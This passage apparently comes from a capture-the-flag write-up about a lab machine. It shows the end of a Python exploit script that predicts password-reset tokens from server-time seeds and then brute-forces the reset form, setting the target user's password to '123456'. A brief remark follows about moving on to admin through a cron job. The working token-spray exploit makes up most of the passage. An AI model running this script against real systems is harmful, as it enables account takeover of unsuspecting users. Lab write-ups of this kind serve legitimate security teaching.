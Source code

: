 ```py
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    f = open("seed_list.txt", "r")
    values = f.readlines()
    for token_value in values:
        token_value = token_value.rstrip()
        data = {"token": "%s" %token_value, "password1": "123456", "password2": "123456"}
        res = r.post(url, headers=headers, data=data, proxies=proxies)    
        if res.headers['Content-Length'] != "578":
            print("[+] Password Changed !! [+]")
            print("[+] Token Used: %s ! [+]" %token_value) 
            print("[+] New password: 123456 [+]")
            break
        else:
            continue

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to be changed', required=True)
    args = parser.parse_args()

    rhost = args.target
    username = args.username
    
    '''Here we call the functions'''
    # Get the seed1
    seed1 = getCurrentTime(rhost)
    os.system("sleep 1")
    # Send the token
    sendToken(rhost,username)
    # Get the seed2
    os.system("sleep 1")
    seed2 = getCurrentTime(rhost)
    # Generate the spray payload list
    mountPhpSpray(seed1,seed2)
    # Let's bruteforce it
    sprayToken(rhost)
    # Clean up
    os.system("rm spray.php")
    os.system("rm seed_list.txt")
    
if __name__ == '__main__':
    main()
```

Got it. Now we can login as user1 and try to get the admin, once I already know that there is some kind of cron running on the system

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2007:17:01.png)
